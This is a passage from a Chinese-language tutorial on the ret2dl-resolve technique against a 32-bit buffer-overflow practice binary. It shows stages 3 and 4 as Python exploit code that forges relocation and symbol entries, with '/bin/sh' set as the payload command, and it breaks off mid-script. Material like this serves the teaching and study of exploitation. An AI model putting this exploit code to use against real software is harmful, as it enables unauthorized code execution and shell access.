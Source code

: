 同样会把我们输入的`cmd`打印出来

![Alt text](http://drops.javaweb.org/uploads/images/171ae12ce6523c5114071ca07d784545a8dd505a.jpg)

**stage3**

这一次我们控制`index_offset`，使其指向我们伪造的`fake_reloc`

```
...
cmd = "/bin/sh"
addr_plt_start = 0x8048370 # objdump -d -j.plt bof
addr_rel_plt   = 0x8048318 # objdump -s -j.rel.plt a.out
index_offset   = (base_stage + 28) - addr_rel_plt
addr_got_write = 0x804a020
r_info         = 0x507
fake_reloc     = l32(addr_got_write) + l32(r_info)

buf2 = 'AAAA'
buf2 += l32(addr_plt_start)
buf2 += l32(index_offset)
buf2 += 'AAAA'
buf2 += l32(1)
buf2 += l32(base_stage+80)
buf2 += l32(len(cmd))
buf2 += fake_reloc
buf2 += 'A' * (80-len(buf2))
buf2 += cmd + '\x00'
buf2 += 'A' * (100-len(buf2))
io.writeline(buf2)
io.interact()

```

同样会把我们输入的`cmd`打印出来

![Alt text](http://drops.javaweb.org/uploads/images/c3e4b6db60bfd9b6355b75cfc64b56aebf3b4505.jpg)

**stage4**

这一次我们伪造`fake_sym`，使其指向我们控制的`st_name`

```
cmd = "/bin/sh"
addr_plt_start = 0x8048370 # objdump -d -j.plt bof
addr_rel_plt   = 0x8048318 # objdump -s -j.rel.plt a.out
index_offset   = (base_stage + 28) - addr_rel_plt
addr_got_write = 0x804a020
addr_dynsym    = 0x080481d8
addr_dynstr    = 0x08048268
fake_sym       = base_stage + 36
align          = 0x10 - ((fake_sym - addr_dynsym) & 0xf)
fake_sym       = fake_sym + align
index_dynsym   = (fake_sym - addr_dynsym) / 0x10
r_info         = (index_dynsym << 8 ) | 0x7
fake_reloc     = l32(addr_got_write) + l32(r_info)
st_name        = 0x54
fake_sym       = l32(st_name) + l32(0) + l32(0) + l32(0x12)

buf2 = 'AAAA'
buf2 += l32(addr_plt_start)
buf2 += l32(index_offset)
buf2 += 'AAAA'
buf2 += l32(1)
buf2 += l32(base_stage+80)
buf2 += l32(len(cmd))
buf2 += fake_reloc
```